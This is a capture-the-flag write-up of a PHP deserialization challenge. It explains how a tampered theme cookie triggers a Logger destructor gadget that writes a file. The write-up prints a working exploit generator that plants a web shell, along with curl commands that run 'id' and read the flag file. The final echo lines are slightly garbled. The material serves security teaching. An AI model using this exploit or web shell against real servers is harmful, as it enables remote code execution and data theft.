

# [web] CapyBlog

> **Category:** `web`  
> **CTF:** KubSTU CTF 2026 Spring

---

Challenge description:
Lately the theme switching has been glitchy. Maybe it's because of the bugs? Did the site used to work the same way?

Solution:
We look for a backup.

We discover a web application backup at `/backup/www.zip`.

Discovering the attack vector:
It all starts with searching for functions that accept user input. In PHP, the main "red flag" is unserialize() if it receives something from $_GET, $_POST, or $_COOKIE.

Vulnerable section (utils.php):
The application trusts the contents of the theme cookie. It expects an object or array with theme settings there.
Problem: unserialize() doesn't just restore data — it creates instances of whatever classes are declared in the system. If we pass a string describing an object of the Logger class, PHP will create it.

When PHP restores an object from a string, it automatically calls special "magic methods." This is our lever.

Magic methods in classes.php:
- __wakeup() — called IMMEDIATELY upon deserialization.
- __destruct() — called when the object is removed from memory (end of script execution).
- __toString() — called if the object is used as a string.

In our case, __wakeup in the FileHandler class just opens and closes a file — that's boring. But Logger has functionality interesting to us.

Finding the useful "Gadget" (POP Chain):
We're looking for a method that does something dangerous with data we can control.

Analyzing the Logger class (classes.php):
We fully control the $logFile and $message properties through the serialized string.
We can make PHP write any string to any file that the web server has write access to.

Writing the shell:
Now we connect everything together. We need to:
1. Choose a filename (e.g. in the web application root /var/www/html/)
2. Compose PHP code (shell).
3. Pack it into a format understood by unserialize().

Exploit logic:
1. Create a Logger object.
2. Assign $logFile = "/var/www/html/css_optimizer.php".
3. Assign $message = "<?php system(\$_GET['cmd']); ?>".
4. Serialize (O:6:"Logger":2:{s:7:"logFile";s:31:"..."; ...}).
5. Encode to Base64 and substitute into the cookie.

When index.php (or any other script that includes utils.php) finishes execution, the destructor of our "fake" logger fires and creates the shell file.

Official exploit (you can also use online PHP compilers to generate the payload):
<?php

/**
 * PoC Exploit for CapyBlog Deserialization
 * Generates a Base64 cookie payload for RCE
 */

class Logger
{
    public $logFile;
    public $message;

    public function __construct($file, $msg)
    {
        $this->logFile = $file;
        $this->message = $msg;
    }
}

$shell_filename = "general_shell.php";
$shell_path = "./" . $shell_filename;

$shell_content = '<?php if($c=$_SERVER["HTTP_X_CAPY_COMMAND"]){echo "---OUT---\\n";system($c);echo "---END---\\n";} ?>';

$exploit_obj = new Logger($shell_path, $shell_content);
$serialized_payload = serialize($exploit_obj);
$cookie_payload = base64_encode($serialized_payload);

echo "--- CAPYBLOG RCE EXPLOIT GENERATOR ---\n\n";

echo "[STEP 1] Send payload to create shell:\n";
echo "curl -v -b \"theme={$cookie_payload}\" http://TARGET/index.php\n\n";

echo "[STEP 2] Test RCE (execute 'id'):\n";
echo "curl -H \"X-Capy-Command: id\" http://TARGET/{$shell_filename}\n";

echo "\[STEP 2\] Test RCE (execute 'id'):\\n";
echo "curl -H \\"X-Capy-Command: cat \/flag.txt\\" http://TARGET/{$shell_filename}\\n";

?>
Read the /flag file.

## 🚩 Flag

KubSTU(capybl0g_php_d3s3r1al1zat10n)
